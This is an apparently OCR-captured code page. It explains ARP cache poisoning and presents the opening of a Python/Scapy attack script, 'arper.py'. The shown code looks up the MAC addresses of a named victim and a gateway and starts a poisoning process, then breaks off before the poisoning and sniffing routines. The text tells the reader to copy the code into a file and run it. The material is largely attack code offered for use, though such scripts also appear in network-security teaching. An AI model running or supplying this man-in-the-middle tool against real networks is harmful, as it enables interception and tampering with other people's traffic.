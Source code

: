 To use this code, simply copy and paste it into a Python file and run it.

# **ARP Cache Poisoning with Scapy**

ARP cache poisoning is an attack where an attacker sends forged ARP messages to the victim's computer, tricking it into thinking that the attacker's computer is the gateway. This allows the attacker to intercept and manipulate network traffic between the two hosts. Scapy can be used to perform ARP cache poisoning attacks by sending forged ARP messages to the victim's computer.

### `arper.py`

```python
from multiprocessing import Process
from scapy.all import (ARP, Ether, conf, get_if_hwaddr,
send, sniff, sndrcv, srp, wrpcap)
import os
import sys
import time

""""
helper function to get the MAC address for any given machine
"""
# pass in the target IP address and create a packet
def get_mac(targetip):

    # Ether -> specifies -> packet is to be boradcast
    # ARP -> specifies -> the request for the MAC address
    packet = Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(op="who-has", pdst=targetip)

    # send the packet with the Scapy function srp
    resp, _ = srp(packet, timeout=2, retry=10, verbose=False)

    for _, r in resp:
        return r[Ether].src
    return None

class Arper:

    """
    initialize the class with the victim and gateway IPs and specify the interface to use
    """
    def __init__(self, victim, gateway, interface='en0'):
        self.victim = victim
        self.victimmac = get_mac(victim)
        self.gateway = gateway
        self.gatewaymac = get_mac(gateway)
        self.interface = interface
        conf.iface = interface
        conf.verb = 0
        print(f'Initialized {interface}:')
        print(f'Gateway ({gateway}) is at {self.gatewaymac}.')
        print(f'Victim ({victim}) is at {self.victimmac}.')
        print('-'*30)

    """"
    The run method performs the main work of the Arper object
    """
    def run(self):
        # poison the ARP cache
        self.poison_thread = Process(target=self.poison)
        self.poison_thread.start()

        # watch the attack in progress by sniffing the network traffic
```